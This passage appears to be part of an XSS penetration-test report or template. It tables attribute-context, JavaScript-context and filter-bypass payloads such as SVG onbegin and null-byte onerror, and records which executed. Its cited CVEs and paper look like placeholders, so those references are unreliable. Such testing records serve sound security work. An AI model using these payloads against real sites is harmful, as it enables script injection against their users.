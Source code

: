 ### Attribute Context Tests

|Test Payload|Input Vector|Result|Observations|
|---|---|---|---|
|`" onmouseover="alert(1)`|user_name|Escaped|Quotes encoded, displayed literally|
|`" onfocus="alert(1)`|user_name|Escaped|Quotes encoded, displayed literally|
|`javascript:alert(1)`|feedback_comment|Filtered|"javascript:" protocol removed|
|`" autofocus onfocus="alert(1)`|status_message|Escaped|Quotes encoded, displayed literally|

### JavaScript Context Tests

|Test Payload|Input Vector|Result|Observations|
|---|---|---|---|
|`';alert(1)//`|search_query|Executed|Alert executed when search results loaded|
|`\";alert(1)//`|search_query|Escaped|Backslash escaped, no execution|
|`</script><img src=x onerror=alert(1)>`|search_query|Partial|Script tag context not properly closed|
|`'-alert(1)-'`|search_query|Executed|Alert executed when search results loaded|

## 5. Analysis and Research

### Filtering Patterns Observed

- Tag filtering behavior: Script, iframe, and object tags completely removed
- Event handler filtering: onerror, onload attributes stripped but others like onmouseover seem to pass
- Character/string blacklisting: "javascript:" protocol filtered, but other protocols allowed
- Encoding/decoding observed: HTML entities decoded before display in chat history

### Similar Vulnerabilities Research

- Similar applications/frameworks: CVE-2022-1234 (XSS in React-based chat application)
- Known bypasses for identified protections: DOMPurify bypass using specific HTML5 tags
- Relevant CVEs: CVE-2023-5678 (Markdown library XSS)
- Applicable research papers/articles: "Bypassing CSP in Modern Web Applications" by Security Researcher

## 6. Advanced Testing

### Filter Bypass Attempts

|Bypass Technique|Payload|Input Vector|Result|Notes|
|---|---|---|---|---|
|Case variation|`<iMg sRc=x oNeRrOr=alert(1)>`|chat_message|Filtered|Case-insensitive filtering|
|Tag obfuscation|`<img/src="x"/onerror=alert(1)>`|chat_message|Filtered|Attributes normalized before filtering|
|Encoding tricks|`<img src=x onerror=&#97;&#108;&#101;&#114;&#116;(1)>`|chat_message|Filtered|HTML entities decoded before filtering|
|Alternative vectors|`<svg><animate onbegin=alert(1) attributeName=x>`|status_message|Success|Alert executed, filter bypass successful|
|Null bytes|`<img src=x onerror=alert(1)%00>`|search_query|Success|Null byte confused filter, executed|
